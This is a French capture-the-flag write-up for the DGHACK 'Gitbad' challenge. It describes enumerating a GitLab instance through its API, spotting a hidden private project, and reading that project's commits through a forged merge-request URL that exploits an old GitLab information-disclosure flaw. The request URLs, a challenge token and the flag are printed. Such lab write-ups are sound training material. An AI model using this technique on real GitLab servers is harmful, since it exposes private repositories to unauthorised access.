

# Gitbad

## Description

La plateforme Gitlab créée par un stagiaire de DGA MI semble être ouverte à tous !

Vous devez en profiter pour retrouver des informations sensibles. Les comptes créés sur Gitlab sont validés toutes les trois secondes.

> Accès à l'épreuve: http://gitbad2.chall.malicecyber.com:80/

## Solution

### Recherche de la cible

Nous avons la possibilité de créer un compte sur l'instance gitlab : ce qui nous permet d'avoir l'accès à beaucoup d'information.

Notamement, nous savons qu'il y a 6 projets public.

Le premier reflexe est donc de regardé dans les commits de chaque projet pour voir si des informations sensibles n'ont pas été divulgées : le résultat est sans appelle, aucun commit ne contient des données qui nous sont utiles.

Une information importante qu'on remarque en fouillant un peu sur notre profil est la possibilité d'utilisé l'api avec notre `private_token`.

L'API nous permet de connaitre la liste des utilisateurs enregistrés.

`GET /api/v3/users?private_token=vf9hrS28m6AV9xPkjYs4`


En créant un projet nous appartenant, on remarque que sont id est le `8`, on se demande donc ou est passé le `7`.

Quelques requetes plus tard, on s'aperçoit que nous n'avons pas accès au projet avec l'id `7`.

`GET /api/v3/projects/6/?private_token=vf9hrS28m6AV9xPkjYs4`

```json
{
  "id": 6,
  "description": "easy for me",
  "default_branch": "master",
  "tag_list": [],
  "public": true,
  "archived": false,
  "visibility_level": 20,
...
}
```

`GET /api/v3/projects/7/?private_token=vf9hrS28m6AV9xPkjYs4`

```json
{ "message": "404 Project Not Found" }
```

`GET /api/v3/projects/8/?private_token=vf9hrS28m6AV9xPkjYs4`

```json
{
  "id": 8,
  "description": "",
  "default_branch": null,
  "tag_list": [],
  "public": false,
  "archived": false,
  "visibility_level": 0,
...
}
```

### Recherche de la vulnérabilité

Après la phase de reconnaissance, nous savons qu'un projet privée existe. Il nous faut donc trouver une vulnérabilité pour y accèder.

On commence donc par retrouver la version du gitlab grâce à la page `/help`.


Une fois la version en notre possession, une recherche google permet de trouver un [article de gitlab](https://about.gitlab.com/releases/2016/05/02/cve-2016-4340-patches/) sur plusieurs CVE affectant notre version.

Au total nous avons 4 vulnérabilités :
 - https://www.exploit-db.com/exploits/40236
 - https://gitlab.com/gitlab-org/gitlab-ce/issues/15579
 - https://gitlab.com/gitlab-org/gitlab-ce/issues/15439
 - https://gitlab.com/gitlab-org/gitlab-ce/issues/15591

### Exploitation

La `CVE-2016-4340` semble etre la plus intéressante pour avoir accès au projet privé, cependant je n'ai pas réussit à l'exploiter à cause d'une erreur dans mon payload.

Je me suis donc tournée vers la vulnérabilité concernant la divulgation d'information via une merge request.

En utilisant un projet nous appartenant, on peut forger une merge request pour accèder au commit du projet privée.

`http://gitbad2.chall.malicecyber.com/test/dummy/merge_requests/new?utf8=%E2%9C%93&merge_request%5Bsource_project_id%5D=7&merge_request%5Bsource_branch%5D=master&merge_request%5Btarget_project_id%5D=8&merge_request%5Btarget_branch%5D=dev`

On obtient ainsi la liste des commits du projet privé, un en particulier retient notre attention.



On y accède pour obtenir le flag `W3lL-d0N3-y0u-w1n-a_c4ke!`.

## Write-up

- [Nicolas Bourras](https://nicolasb.fr/blog/writeup-dghack-gitbad/)
